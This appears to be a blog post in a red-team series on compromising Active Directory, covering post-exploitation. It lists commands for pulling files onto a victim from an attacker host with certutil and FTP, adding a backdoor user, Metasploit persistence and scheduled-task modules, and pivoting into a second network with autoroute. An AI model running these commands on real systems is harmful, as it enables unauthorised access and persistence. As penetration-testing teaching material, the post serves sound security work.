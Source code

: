+++
title = "Compromising AD - Part 4: Post Exploitation"

date = "2021-08-17T12:35:53+05:30"

tags = ["active-directory", "cybersecurity", "windows", "red-teaming"]
+++


# Post Exploitation

---

- [Post Exploitation](#post-exploitation)
	- [File-Transfers](#file-transfers)
	- [Maintaining-Access](#maintaining-access)
	- [Pivoting](#pivoting)
		- [Setup and Pivot!](#setup-and-pivot)
	- [Cleanup](#cleanup)
		- [Make the system/network as it was when you entered it.](#make-the-systemnetwork-as-it-was-when-you-entered-it)


<br>

## File-Transfers

---

- Certutil

		certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt

- HTTP - Change to the directory you want to host
	
		python -m SimpleHTTPServer [port]

- Browser 

		Navigate directly to the file (%20 for spaces)

- FTP

	- On Attacker Machine

			python -m pyftpdlib 21

	- On Victim Machine, Browse to
	
			ftp 10.10.10.10

- Linux

		wget https://example.com/example.txt

<br>

## Maintaining-Access

---

- Add a user 
	
		net user hacker password 123 /add

- Persistence Scripts 
	
		run persistence -h 
	
		exploit/windows/local/persistence 
	
		exploit/windows/local/registry_persistence 

- Scheduled Tasks 
	
		run scheduleme 
	
		run schtaskabuse 


<br>

## Pivoting

---

Suppose you're on **`192.168.x.x`** **Network** and so your Victim is.

But when you get a shell into machine, you try the following commands:

	printroute
	ipconfig

And you notice that there is **another network** (say **`eth1` `10.10.10.x`**)

How do we **get into the other network?**

We do something called as **PIVOTING -> ->** 

<br>

### Setup and Pivot!

Fire up `msfconsole` and **Route** to the other network

	run autoroute -s 10.10.10.0/24
	
**List** all the routes

	run autoroute -p 

**Background** that session

	background 

**Let's Pivot** into that Machine (`10.10.10.x` Network)

	use scanner/portscan/tcp

Set the **RHOST** and an **Open Port** (Since we know it's **AD**, we can use **445**)

	set RHOSTS 10.10.10.2
	set PORTS 445

	run

You have **successfully pivoted** into that machine! (which you didn't even know about because of **different network**) 

<br>

## Cleanup

---

### Make the system/network as it was when you entered it.

- Remove **executables**, **scripts**, and **added files.** 

- Remove **malware**, **rootkits**, and **added user accounts.**

- Set settings back to **original configurations.**

<br>

***:) Nice Work, Good Luck on Pentests!***

